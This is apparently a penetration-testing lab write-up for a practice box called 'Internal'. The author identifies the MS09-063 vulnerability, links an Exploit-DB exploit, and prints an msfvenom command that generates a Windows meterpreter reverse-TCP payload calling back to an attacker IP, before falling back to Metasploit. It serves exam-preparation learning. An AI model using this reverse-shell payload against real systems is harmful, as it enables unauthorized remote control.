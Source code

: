 # Internal

I start by scanning for open ports:

<figure><img src="../../../.gitbook/assets/image (130).png" alt=""><figcaption></figcaption></figure>

after looking at the HTTP service i see this:

<figure><img src="../../../.gitbook/assets/image (131).png" alt=""><figcaption></figcaption></figure>

I google this port looking for more informations and end up seeing this:

{% embed url="https://learn.microsoft.com/en-us/security-updates/securitybulletins/2009/ms09-063" %}

So i look up the exploits related to this CVE:

{% embed url="https://www.exploit-db.com/exploits/40280" %}

in the exploit there is a msfvenom command that we need to use to adapt the payload to our rhost:

```
#msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.30.77 LPORT=443  EXITFUNC=thread  -f python
```

then i replace some stuff in the payload to match the syntax of the payload:

<figure><img src="../../../.gitbook/assets/image (132).png" alt=""><figcaption></figcaption></figure>

after a long time looking into it, the box was really annoying so i decided to stop trying to fix errors in the code i thik i had to convert the exploit to python3 but the offsec VMs are very unreliable and i didn't want to bother myself so i used metasploit &#x20;

<figure><img src="../../../.gitbook/assets/image (133).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (134).png" alt=""><figcaption></figcaption></figure>

bruh

decided to look at a writeup online for the manual way, now way i would've managed to do all the steps ATM, will try later on in my prep to go through each step

<figure><img src="../../../.gitbook/assets/image (135).png" alt=""><figcaption></figcaption></figure>
